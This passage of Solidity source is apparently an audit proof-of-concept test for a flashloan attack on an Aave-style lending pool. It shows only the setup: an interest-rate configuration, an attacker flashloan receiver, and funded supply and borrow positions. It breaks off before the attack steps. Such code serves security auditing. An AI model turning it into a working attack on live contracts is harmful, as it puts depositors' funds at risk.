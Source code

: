 ```solidity

contract SFlashloanTests is TestnetProcedures {
  using ReserveConfiguration for DataTypes.ReserveConfigurationMap;
  using WadRayMath for uint256;
  using PercentageMath for uint256;

  address s1;
  address b1;
  address attacker;
  FlashloanReceiver attackerFLReceiver;

  function setUp() public {
    initTestEnvironment();

    // current IRS config used for USDC on mainnet
    bytes memory USDX_IRS_CONFIG = abi.encode(
      IDefaultInterestRateStrategyV2.InterestRateData({
        optimalUsageRatio: 92_00,
        baseVariableBorrowRate: 0,
        variableRateSlope1: 5_50,
        variableRateSlope2: 35_00
      })
    );
    vm.prank(poolAdmin);
    contracts.poolConfiguratorProxy.setReserveInterestRateData(
      tokenList.usdx,
      USDX_IRS_CONFIG
    );
  }

  function testFlashloanAttackS() public {
    // deploy attack FL receiver
    attackerFLReceiver = new FlashloanReceiver(
      IPoolAddressesProvider(report.poolAddressesProvider)
    );

    // prepare the users
    s1 = makeAddr("s1");
    b1 = makeAddr("b1");
    attacker = makeAddr("attacker");
    _prepareUser(s1, 200_000e6, 100e18);
    _prepareUser(b1, 0, 100e18);

    // 50 USDC is the premium
    _prepareUser(address(attackerFLReceiver), 50e6, 0);

    // prepare the pool with supply/borrow
    // USDX supplied = 200_000e6
    // USDX borrowed = 100_000e6
    // USDX virtual balance = 100_000e6
    vm.prank(s1);
    contracts.poolProxy.supply(tokenList.usdx, 200_000e6, s1, 0);
    vm.startPrank(b1);
    contracts.poolProxy.supply(tokenList.wbtc, 100e18, b1, 0);
    contracts.poolProxy.borrow(tokenList.usdx, 100_000e6, 2, 0, b1);
    vm.stopPrank();

    assertEq(
      contracts.poolProxy.getVirtualUnderlyingBalance(tokenList.usdx),
      100_000e6
    );

    // warp 1 day
```